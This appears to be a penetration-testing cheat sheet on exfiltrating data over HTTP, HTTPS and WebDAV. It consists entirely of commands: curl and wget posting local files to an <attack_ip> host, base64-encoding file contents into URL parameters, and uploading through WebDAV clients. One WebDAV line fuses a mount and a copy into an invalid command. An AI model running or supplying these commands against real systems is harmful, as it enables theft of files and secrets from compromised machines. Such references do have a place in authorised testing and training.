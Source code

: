 # Data Exfiltration via HTTP/HTTPS

#### Curl
- **Download a file from a remote server:**
	```bash
	curl -O http://<attack_ip>/file_name
	```
- **Upload Data to a Web Server via HTTP POST:**
	```bash
	curl -X POST -d @/path/to/local_file http://<remote_ip>/upload
	```
- **Upload file via HTTP POST:**
	```bash
	curl -X POST -F 'file=@/path/to/file' http://<attack_ip>/upload
	```
- **Exfiltrate data by encoding in URL parameters:**
	```bash
	curl http://<attack_ip>/index.php?data=$(cat /path/to/file | base64)
	```
- **Exfiltrate Data via HTTP GET with Base64 Encoding:**
	```bash
	cat /path/to/local_file | base64 | curl -G --data-urlencode "data@-" http://<remote_ip>/upload
	```

#### Wget
- **Upload file via HTTP POST using Wget:**
	```bash
	wget --post-file=/path/to/local_file http://<remote_ip>/upload
	```
- **Exfiltrate Data Over HTTPS for Encrypted Transfer:**
	```bash
	wget --secure-protocol=auto --post-file=/path/to/local_file https://<remote_ip>/upload
	```

#### HTTP Server (Python)
- **Start a simple HTTP server to serve files:**
	```bash
	python3 -m http.server <local_port>
	```
- **Send Files Using `curl` (from target machine):**
	```bash
	curl --upload-file <file> http://<attack_ip>:8080
	```

#### WebDAV
- **Mount a WebDAV Share and Exfiltrate Files:**
	```bash
	davfs2 http://<webdav_ip>/share /mnt cp /path/to/local_file /mnt/
	```
- **Exfiltrate Data Using `cadaver` (WebDAV Client):**
	```bash
	cadaver http://<webdav_ip>/share put /path/to/local_file
	```

